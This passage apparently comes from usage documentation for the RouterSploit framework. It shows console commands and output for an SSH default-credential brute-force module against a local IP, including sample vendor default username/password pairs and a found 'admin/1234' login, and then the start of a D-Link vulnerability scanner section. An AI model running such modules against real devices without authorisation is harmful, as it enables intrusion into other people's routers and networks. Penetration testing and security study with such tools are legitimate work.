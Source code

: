 
Set target:

    rsf (SSH Default Creds) > set target 192.168.1.53
    [+] {'target': '192.168.1.53'}


### Run module

    rsf (SSH Default Creds) > run
    [*] Running module...
    [*] worker-0 process is starting...
    [*] worker-1 process is starting...
    [*] worker-2 process is starting...
    [*] worker-3 process is starting...
    [*] worker-4 process is starting...
    [*] worker-5 process is starting...
    [*] worker-6 process is starting...
    [*] worker-7 process is starting...
    [-] worker-4 Authentication failed. Username: '3comcso' Password: 'RIP000'
    [-] worker-1 Authentication failed. Username: '1234' Password: '1234'
    [-] worker-0 Authentication failed. Username: '1111' Password: '1111'
    [-] worker-7 Authentication failed. Username: 'ADVMAIL' Password: 'HP'
    [-] worker-3 Authentication failed. Username: '266344' Password: '266344'
    [-] worker-2 Authentication failed. Username: '1502' Password: '1502'

    (..)

    Elapsed time:  38.9181981087 seconds
    [+] Credentials found!

    Login     Password     
    -----     --------     
    admin     1234         

    rsf (SSH Default Creds) >

## 3. Scanners

Scanners allow you to quickly verify if the target is vulnerable to any exploits.

### Pick module

    rsf > use scanners/dlink_scan
    rsf (D-Link Scanner) > show options


### Options

    Target options:

       Name       Current settings     Description                                
       ----       ----------------     -----------                                
       target                          Target address e.g. http://192.168.1.1     
       port       80                   Target port                                
